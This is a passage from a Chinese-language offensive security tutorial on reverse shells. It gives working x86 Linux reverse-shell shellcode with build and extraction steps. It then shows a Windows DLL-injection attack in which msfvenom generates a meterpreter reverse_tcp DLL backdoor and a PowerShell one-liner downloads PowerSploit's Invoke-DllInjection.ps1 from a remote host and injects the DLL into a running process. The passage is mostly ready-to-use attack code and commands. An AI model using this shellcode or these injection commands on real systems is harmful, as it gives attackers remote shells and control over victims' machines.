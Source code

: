 ```c
mov ecx,esp ;将参数数组的地址保存到ecx（socketcall的第二个参数）
mov bl,3  ;将bl设置为3，socketcall的第一个参数
mov al,102  ;调用socketcall，分支调用号为3：SYS_CONNECT
int 0x80  ;进入核心态，执行系统调用
 
mov ebx,esi ;将客户端的soc文件描述符复制到ebx
;dup2(soc,0)
xor ecx,ecx ;清空ecx
mov al,63 ;将系统调用的第一个参数设置为63：dup
int 0x80  ;进行系统调用
 
;dup2(client,1)
inc ecx ;ecx设置为1
mov al,63 ;准备进行系统调用:dup2:63
int 0x80  ;进行系统调用
 
;dup2(client,2)
inc ecx ;ecx设置为2
mov al,63 ;准备进行系统调用:dup2:63
int 0x80 ;进行系统调用
 
;标准的execv("/bin/sh"...
push edx
push long 0x68732f2f
push long 0x6e69622f
mov ebx,esp
push edx
push ebx
mov ecx,esp
mov al,0x0b
int 0x80
```

注意，push long 0x6400A8C0 这里就是IP地址，出现了00，在网络传输中会被截断

```shell
nasm -f elf reverse_port_asm.asm
ld -o reverse_port_asm reverse_port_asm.o
# 然后抽取十六进制代码
objdump -d ./reverse_port_asm
# 得到shellcode 
```

### 通过dll进程注入执行反弹shell

PowerSploit是又一款基于powershell的后渗透攻击框架。PowerSploit包括Inject-Dll(注入dll到指定进程)、Inject-Shellcode（注入shellcode到执行进程）等功能。
利用msfvenom、metasploit和PowerSploit中的Invoke-DllInjection.ps1 实现dll注入，反弹shell

```powershell
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.159.134 lport=6667 -f dll -o /var/www/html/PowerSploit/lltest.dll  # msfvenom生成dll后门

# metasploit设置payload开启监听

IEX (New-Object Net.WebClient).DownloadString("http://192.168.159.134/PowerSploit/CodeExecution/Invoke-DllInjection.ps1")Invoke-DllInjection -ProcessID 5816 -Dll C:UsersAdministratorDesktoplltest.dll  # powershell下载PowerSploit中Invoke-DllInjection.ps1和msfvenom生成的dll后门
```
